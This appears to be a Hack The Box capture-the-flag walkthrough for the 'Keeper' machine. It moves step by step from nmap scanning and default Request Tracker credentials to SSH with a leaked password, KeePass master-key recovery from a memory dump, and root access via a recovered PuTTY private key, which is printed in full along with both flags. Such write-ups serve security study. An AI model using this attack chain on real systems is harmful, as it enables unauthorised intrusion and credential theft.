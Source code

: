 # Keeper

> IP: [10.10.11.227]

## NOTES / STEPS

1. Deploy Machine
2. NMAP
   1. > nmap -sC -sV 10.10.11.227 -oN init_scan
      1. Port 22 -> ssh
      2. Port 80 -> http
3. HTTP 
   1. Navigate to website
      1. We are met with a link to "To raise an IT support ticket, please visit tickets.keeper.htb/rt/"
         1. Need to add this to our /etc/hosts
         2. Clicking the link we are redirected to a login form for REQUEST TRACKER
   2. VERSION
      1. Looking at the login we see "4.4.4+dfsg-2ubuntu1" as a potential version
4. RESEARCH
   1. It looks like the default credentials for RT is root:password
5. RT
   1. Sign into the dashboard
   2. Looking through we see
      1. ADMIN -> USERS
         1. root
         2. lnorgaard
            1. COMMENTS ABOUT USER: "Initial password set to Welcome2023!"
               1. Maybe we can SSH in with this password
6. SSH
   1. Try and sign in as Lise Nørgaard
      1. > ssh lnorgaard@10.10.11.227
         1. PW: Welcome2023!CCESS
7. ENUMERATION
   1. Check sudo privileges (if any)
      1. > sudo -l
         1. RESPONSE: Sorry, user lnorgaard may not run sudo on keeper.
   2. Get user flag
      1. > cat user.txt
         1. FLAG: `abdee41ae0a88b5f7c0e77a375e2aec7`
   3. Check userdirectory
      1. > ls
         1. Interesting File:
         2. -rw-r--r-- 1 root      root      87391651 Feb 20 20:24 RT30000.zip
   4. LINPEAS
      1. Interesting Files
         1. /home/lnorgaard/RT30000.zip
         2. /home/lnorgaard/.gnupg/pubring.kbx
         3. /home/lnorgaard/.gnupg/trustdb.gpg
   5. RT30000.zip
      1. Lets extract this zip file
         1. > unzip RT30000.zip
            1. passcodes.kdbx, KeePassDumpFull.dmp
            2. It looks like there is a keepass dump file and potentially the passcodes
            3. Lets download these and see if we can extract any info from them
               1. > wget http://10.10.11.227:8000/passcodes.kdbx
               2. > wget http://10.10.11.227:8000/KeePassFullDump.dmp
   6. KeePass Dumper
      1. Pull the repo
         1. > git clone https://github.com/matro7sh/keepass-dump-masterkey.git
      2. Run
         1. > python3 poc.py ~/CTF/htb/keeper/KeePassFullDump.dmp

            ```text
               Possible password: ●,dgr●d med fl●de
               Possible password: ●ldgr●d med fl●de
               Possible password: ●`dgr●d med fl●de
               Possible password: ●-dgr●d med fl●de
               Possible password: ●'dgr●d med fl●de
               Possible password: ●]dgr●d med fl●de
               Possible password: ●Adgr●d med fl●de
               Possible password: ●Idgr●d med fl●de
               Possible password: ●:dgr●d med fl●de
               Possible password: ●=dgr●d med fl●de
               Possible password: ●_dgr●d med fl●de
               Possible password: ●cdgr●d med fl●de
               Possible password: ●Mdgr●d med fl●de
            ```

            1. Looks like we have several potential passwords, but not legible
            2. Googling these we see "Rødgrød med Fløde" as a food dish - this could be the password

   7. KEEPASS
      1. Open keepass
      2. Import passcodes.kdbx
         1. PW: rødgrød med fløde
         2. Now we have access to the passwords
      3. LOOKING THROUGH
         1. In here we see a putty key file (normally used for ssh from a windows machine)
         2. > nano putty-file
            1. Paste in the key

               ```putty
                  PuTTY-User-Key-File-3: ssh-rsa
                  Encryption: none
                  Comment: rsa-key-20230519
                  Public-Lines: 6
                  AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
                  8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
                  EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
                  Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
                  FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
                  LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
                  Private-Lines: 14
                  AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
                  oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
                  kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
                  f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
                  VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
                  UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
                  OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
                  in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
                  SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
                  09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
                  xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
                  AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
                  AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
                  NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
                  Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
               ```

8. ESCALATION
   1. We need to convert our putty key file into a normal id_rsa
      1. Install tools
         1. > sudo apt install putty-tools
   2. Convert
      1. > puttygen putty-file.txt -O private-openssh -o keeper_rsa
      2. > chmod 600 keeper_rsa
   3. SSH
      1. > ssh -i keeper_rsa root@keeper.htb
      2. SUCCESS!
9. ROOT
   1. Get the root flag
      1. > cat root.txt
         1. FLAG: `553c83f2ff65530dec1446ad9536ecea`

## QUESTIONS

1. User flag
   1. `abdee41ae0a88b5f7c0e77a375e2aec7`
2. Root flag
   1. `553c83f2ff65530dec1446ad9536ecea`
